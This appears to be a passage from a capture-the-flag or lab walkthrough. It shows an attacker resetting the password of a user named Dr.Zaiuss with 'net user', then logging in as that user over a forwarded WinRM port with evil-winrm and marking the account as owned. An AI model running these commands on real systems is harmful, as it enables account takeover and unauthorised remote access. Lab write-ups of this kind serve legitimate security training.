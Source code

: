 ```bash

net user Dr.Zaiuss p@ssw0wrd12345

```

![](20211107170855.png)

forwarding the port Dr.zaiuss is winrm only.

```bash

evil-winrm -i 127.0.0.1 -u Dr.Zaiuss  -p p@ssw0wrd12345

```

![](20211107171121.png)

Mark Dr.zaiuss as owned
